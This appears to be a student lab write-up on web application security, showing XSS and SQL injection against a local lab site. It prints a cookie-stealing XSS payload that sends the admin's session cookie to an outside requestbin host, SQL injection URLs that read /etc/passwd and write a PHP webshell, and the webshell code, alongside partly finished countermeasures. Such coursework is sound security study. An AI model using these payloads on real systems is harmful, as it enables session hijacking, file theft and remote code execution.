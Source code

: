 # Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comment section the the home page. Indeed, there was no filtering of any kind of HTML charateres of quotes.
This allowed us to inject javascript code in the field to upload a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator looking at the web page.

#### Description of the attack

The command that we insert in the "text" field and used to steal the administrator's cookie is:
```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('<img onerror="this.onerror=null;this.src=backup_url;" src="http://en8mgdzvtyrzg.x.pipedream.net/?'+document.cookie+'  "/>');</script>
```

When the administrator checks the comments' page, the first source of the image will send his cookie (via the `document.cookie` command) to our requestbin url and be analysed.

![Requestbin used to hijack the administrator's cookie ](assets/pipedream.png)

The thing is that he will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror`tag of the `<img/>` in case the first source url doesn't lead to a picture file.
All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value of the administrator's cookie.

![Session hijacking via manual modification of the PHPSESSID cookie ](assets/chrome-dev-tool.png)

Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:

![Administrator page ](assets/admin-panel.png)

To prevent this attack from happening, we should sanitize user's inputs in the comment's text field. 
We can add escaping functions in the back-end source code to encode special HTML characteres. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

- Client-side:

Desactivate javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly so it can't be a solution on the long run.

- Server-side:

HttpOnly: 
One of the things that could be done to prevent cookie stealing could be to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is that we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charateres that could be used to inject code in the input fields.

### Part 2: SQL Injection

#### Known Vulnerabilities

Firstly we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then we find that the URL was not sanitized, meaning that some commands can be executed through the path, in this lab we will perfom SQL injection, meaning that we will execute SQL queries through this path.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads `/etc/passwd` and display content of this file into a form, as in the image below

![Display passwd file in a form](assets/passwd-file.png)

In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server which the mysql user, which has more rights than the www-data user. Thus, it's possible to display sensitive files, for example in this case the file containing information about users registered on the system. Before we would have also found passwords in this file, but now UNIX systems uses `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will write on our ccs folder, which as write access for everyone, our php file, that we can see on the image below :

![Webshell file located in css folder](assets/webshell-file.png)

Our file contain php code that will fetch the "cmd" parameter in our url, and run it through a shell

```php
<?php
    system($_GET['cmd']);
?>

```

Now we have our php file on the server, we can execute code remotely

![Request whoami executed remotely](assets/whoami-req.png)
![Request uname executed remotely](assets/uname-req.png)

#### Countermeasures

##### Web Application

- Sanitize url
    
##### Database System

- ?

##### Operating System
- Change permission on server. In server mostly recommended that directories permissions should 755 and files 644. In permissions 777 are not recommended due to security reasons.




### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
